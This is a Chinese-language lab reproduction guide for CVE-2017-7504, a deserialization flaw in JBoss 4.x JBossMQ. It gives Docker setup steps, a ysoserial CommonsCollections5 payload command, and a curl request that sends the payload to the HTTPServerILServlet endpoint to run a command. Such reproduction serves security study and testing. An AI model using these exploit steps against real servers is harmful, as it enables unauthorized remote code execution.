

JBoss 4.x JBossMQ JMS 反序列化漏洞（CVE-2017-7504）¶
Red Hat JBoss Application Server 是一款基于JavaEE的开源应用服务器。JBoss AS 4.x及之前版本中，JbossMQ实现过程的JMS over HTTP Invocation Layer的HTTPServerILServlet.java文件存在反序列化漏洞，远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码。
参考：
漏洞环境¶
执行如下命令启动JBoss AS 4.0.5：
docker compose up -d
环境启动后，目标为http://your-ip:8080。
漏洞复现¶
该漏洞出现在/jbossmq-httpil/HTTPServerILServlet请求中，我们借助ysoserial的eCommonsCollections5利用链来复现。生成Payload：
java -jar ysoserial-master-30099844c6-1.jar CommonsCollections5 "touch /tmp/success" > 1.ser
我们将1.ser文件内容作为POST Body发送：
curl http://your-ip:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @1.ser

执行docker compose exec jboss bash进入容器，可见/tmp/success已成功创建。